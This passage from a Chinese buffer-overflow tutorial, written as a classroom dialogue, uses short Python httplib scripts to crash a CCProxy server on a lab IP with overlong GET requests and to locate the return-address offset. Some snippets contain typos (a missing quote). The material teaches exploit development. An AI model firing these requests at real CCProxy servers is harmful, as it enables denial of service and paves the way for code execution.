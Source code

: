 # 7.2.3 实例——Python 探测 CCProxy 漏洞

### 7.2.3 实例——Python 探测 CCProxy 漏洞

“我们用 Python 来对刚才讲解的 CCProxy 漏洞进行探测和定位。”

“刚才使用 VC 编程进行探测时，构造超长字符串很麻烦，而且又要建 Socket，又要连接。但我们用 Python 写一个探测 CCproxy 漏洞的程序则非常简单，只需下面四句。”

```
>>> import httplib
>>> conn = httplib.HTTPConnection("192.168.3.151:808")
>>> a = 'A'*4080
>>>conn.request("GET",a) 
```

“看，192.168.3.151 上的 CCProxy 崩溃了，定位报错框如图 7-16，就是 0x41414141 覆盖了函数返回点。测试完成！”

![](img/Q 版缓冲区溢出教程 224029.jpg)

“啊？这就行了啊？”大家一愣，然后回过神来嚷道，“用 Python 写测试程序太容易了吧！”

“呵呵，是的，如图 7-17。”

![](img/Q 版缓冲区溢出教程 224093.jpg)

“解释一下图 7-17，第一句‘import httplib’是加载 http 协议包，Python 封装了很多协议包，我们直接使用就可以了；第二句‘conn = httplib.HTTPConnection("192.168.3.151:808")’就是使用协议包里面的函数，连接目标机 192.168.3.151 的 808 端口；第三句‘a = 'A'*4080’构造 4080 长度的‘A’赋与变量 a，这是脚本的优势，直接用‘*’就可构造指定长度的字符串；最后一句是‘conn.request("GET",a)’，即把字符串 a 作为 http 的 get 请求发送过去。”

“进一步，我们用 Python 定位千位，只要发送如下字符串就可以了。”

```
import httplib
conn = httplib.HTTPConnection("192.168.3.151:808")
s = 'A'*1000+'B'*1000+'C'*1000+'D'*1000+'E'*80
conn.request("GET",s) 
```

“报错对话框显示为 Offset: 45454545 ，说明千位是 0x45-0x41 = 4。如图 7-18。”

![](img/Q 版缓冲区溢出教程 224605.jpg)　　

“依次类推，我们可以定位十位，就是 4000 个 A，然后 10 个 A，10 个 B，10 个 C……程序如下：”

```
import httplib
　　conn = httplib.HTTPConnection("192.168.3.151:808")
　　s = 'A'*4000+A'*10+'B'*10+'C'*10+'D'*10+'E'*10+'F'*10+'J'*10+'H'*10
　　conn.request("GET",s) 
```

“报错对话框显示为 Offset: 46464646 ，说明十位是 0x46-0x41 = 5。”

“最后定位个位。是在 4050 个 A 后，输入 A 到 J 十个字符，程序如下：”

```
import httplib
　　conn = httplib.HTTPConnection("192.168.3.151:808")
　　s = 'A'*4000+A'*50+'ABCDEFGHIJ'
　　conn.request("GET",s) 
```
